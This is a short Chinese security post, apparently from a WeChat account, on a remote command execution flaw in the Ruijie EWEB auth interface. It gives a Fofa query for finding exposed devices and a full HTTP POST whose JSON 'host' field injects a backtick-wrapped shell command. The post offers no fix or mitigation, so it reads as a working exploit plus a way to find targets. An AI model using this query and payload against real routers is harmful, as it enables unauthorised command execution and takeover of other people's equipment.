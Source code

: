 #  锐捷EWEBauth远程命令执行漏洞   
原创 骇客安全  骇客安全   2025-01-27 01:10  
  
锐捷睿易是锐捷网络面向商务市场的子品牌。拥有便捷的网络、交换机、路由器、无线、安全、云服务六大产品线，解决方案涵盖商业零售、酒店、kt、网吧、监控与安全、物流、仓储、制造。通过该漏洞，攻击者可以任意执行服务器端的代码，编写后门，获得服务器权限，进而控制整个web服务器。  
## 漏洞复现  
  
1、Fofa  
  
body="cgi-bin/luci" && body="#f47f3e"  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991NBAp7FYHRAgJxxy7CfS95pIpfxmaYoEsdrQdtOPeXFU6LG3r44Wia0FAuRTZJC7TdUfj0RNJrVNWQ/640?wx_fmt=png&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991NBAp7FYHRAgJxxy7CfS95pWtvLrPtPgTEoxaVL5hudvOWl4LlLIjKzgSIBVTUvSYuG768LDKJbtg/640?wx_fmt=png&from=appmsg "null")  
```
POST /cgi-bin/luci/api/auth HTTP/1.1
Host: 
Content-Type: application/json
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

{"method":"checkNet","params":{"host":"`echo c149136B>AD0D5b8c.txt`"}}

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IePibcXn991NBAp7FYHRAgJxxy7CfS95pKe41PFHiaUKN58aBQKG6nQLpLQiaZLxTlcWIDeLpOpzz9iatRLsoYZM3g/640?wx_fmt=png&from=appmsg "null")  
  
  
